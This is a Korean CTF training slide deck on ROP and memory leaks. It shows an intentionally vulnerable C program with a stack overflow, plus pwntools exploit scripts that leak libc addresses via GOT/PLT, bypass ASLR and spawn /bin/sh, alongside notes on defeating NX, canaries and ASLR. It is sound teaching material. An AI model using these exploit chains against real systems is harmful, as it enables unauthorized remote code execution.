





footer: © 2O2L2H Book/Seminar, 2017
slidenumbers: true

# [fit] ROP & Memory Leak

### CTF 정보보안 콘테스트 챌린지북

### May 31, 2017
### 2O2L2H/humb1ec0ding

```
/seminar/book/capture-the-flag-hacking-technique/chap.05
```

---
# [fit] Function flow control

- `ret`
- normal `call function`
- `ret` + `call fuction`
    - BoF 시에 `ret` 로 `$eip` control.
    - 이 경우 stack 을 `call function` 한 것과 동일하게 구성한다면 ?
    - `call function` 과 차이점은 ?
    - `call function` 계속 수행하려면 ?



---

# [fit] `ret` + `call function` stack configuration



---

# [fit] `ret` + `call function` chainging

- 앞 함수 `return` == `pop-ret` gadget
    - Stack adjustment
    - `pop *{# of argument} - ret`





---
# [fit] #1 Simple Memory Leak

---

`main()` stack setup 이 다소 달라서 `vuln()` 함수에서 수행하도록 수정.

```c
#include <stdio.h>
#include <string.h>

void vuln()
{
  char msg[] = "Hello\n";
  char buf[32];
  write(1, msg, strlen(msg));
  read(0, buf, 128);
  return 0;
}

int main(int argc, char *argv[])
{
  vuln();
}
```


---
### Compile @32bit Ubuntu

```bash
$  uname -a 
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:06:14 UTC 2016 i686 i686 i686 GNU/Linux

$ ./compile.sh bof4

$ file ./bof4
./bof4: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), 
dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, 
BuildID[sha1]=1f60ca83839e67a4b06936f9d226419590bcfe89, not stripped
```

---
### BoF

```bash
$ ./pattern.py 400
Aa0Aa1Aa2Aa3Aa4Aa5Aa...8Am9An0An1An2A

# GDB exeuction
Program received signal SIGSEGV, Segmentation fault.
0x41376241 in ?? ()

$ ./pattern.py 0x41376241
Pattern 0x41376241 first occurrence at position 51 in pattern.
```

---
### `plt`, `got` address check

- `write@plt` : `0x08048350`
- `write@got` : `0x0804a018`


```bash
$ objdump -d -M intel -j .plt ./bof4

08048350 <write@plt>:
 8048350:       ff 25 18 a0 04 08       jmp    DWORD PTR ds:0x804a018
 8048356:       68 18 00 00 00          push   0x18
 804835b:       e9 b0 ff ff ff          jmp    8048310 <_init+0x24>

```


---
### `rel` : offset in libc

```bash
# Ubuntu 16.04 x86
$  nm -D /lib/i386-linux-gnu/libc.so.6 |grep write
000d5c70 W write

# Ubuntu 17.10 x64
$  nm -D /lib32/libc.so.6  |grep write
000d6bb0 W write
```

---
### Exploit

```python
from pwn import *

HOST = '127.0.0.1'
PORT = 4000

local = True

if local:
    conn = process("./bof4")
else:
    conn = remote(HOST, PORT)
```

---

```python
write_plt = 0x08048350
write_got = 0x0804a018

gdb.attach(conn)      # WoW !!!

ROP = "A" * 51
ROP += p32(write_plt)
ROP += "BBBB"
ROP += p32(1)
ROP += p32(write_got)
ROP += p32(4)

print conn.recv(1024)
conn.sendline(ROP)
print hex(u32(conn.recv(4)))

#conn.interactive()
```


---
### Execution

```bash
$ python leak.py
[+] Starting local process './bof4': pid 13755
[*] running in new terminal: /usr/bin/gdb -q  "/media/psf/Home/_2O2L2H/github/awesome-ctf-wargame/seminar/book/capture-the-flag-hacking-technique/chap.05/bof4" 13755
[+] Waiting for debugger: Done
Hello

0xf7617bb0
```


---
# [fit] #2 Advanced Memory Leak

- ASLR 걸려있는 서버
- Remote 로 `system("/bin/sh")`  수행 
    - `system()` PLT 에 없으므로 ASLR 적용된 주소 알아야 함.
    - Where to find `/bin/sh` string ?

---
###  How to bypass ASLR

- ASLR 시 바뀌는 부분과 안 바뀌는 부분 ?
    - **Changed** : Stack, Heap, mmap(), base address of `libc`, ...
    - **Not changed** : Code, Offset in `libc`
- `actual address` = `libc_base` + `offset_in_libc`
    -  `actual address` **leak** = `libc_base` in server  + `offset_in_libc`
    - `system actual address` = `libc_base` + `offset_in_libc`

---



---


```python

# write(1, __libc_start_main_got, 4)
ROP += p32(write_plt)
ROP += p32(pop3ret)
ROP += p32(1)
ROP += p32(__libc_start_main_got)
ROP += p32(4)

# read(0, __libc_start_main_got, 20)
ROP += p32(read_plt)
ROP += p32(pop3ret)
ROP += p32(0)
ROP += p32(__libc_start_main_got)
ROP += p32(20)

# system('bin/sh')
ROP += p32(__libc_start_main_plt)
ROP += p32(0xBBBB)
ROP += p32(__libc_start_main_got+4)
```

---

```python
print conn.recv(1024)
conn.sendline(ROP)
time.sleep(0.1)

__libc_start_main_addr = u32(conn.recv(4))
libc_base = __libc_start_main_addr - __libc_start_main_rel
system_addr = libc_base + system_rel

print "libc_base:{}".format(hex(libc_base))
conn.send(p32(system_addr) + "/bin/sh")
time.sleep(0.1)

conn.interactive()
```

---
# [fit] Threat mitigation bypass

- NX : 스택에서의 코드 실행 방지
    * ROP : ret2plt, ret2libc, rop, ...
- Stack Canary : 스택 프레임 무결성 판단
    * Memory Leak, Blind ROP 
- ASLR : 스택, 힙, 라이브러리의 주소 랜덤화
    * Memory Leak, Brute Force (32bit)

---

#### dynamically linked + not stripped

- NX 도 없고 평범하니 Shellcode 주입하고 BOF 부터

#### stack canary + NX

- NX 가 있으니 RTL / ROP 가능성
- Dynamically linked 라 gadget 을 찾는 것만이 다는 아닐 수 있음.
- Canary 가 있으니 FSB 혹은 Canary Leak 이 되는 Point 가 있을 수 있음.

---
#### statically linked + stack canary + NX

- NX 가 있으니 RTL / ROP 가능성
- Statically linked 이니 gadget 구하기 용이함.
- Canary 가 있으니 FSB 혹은 Canary Leak 이 되는 Point 가 있을 가능성.


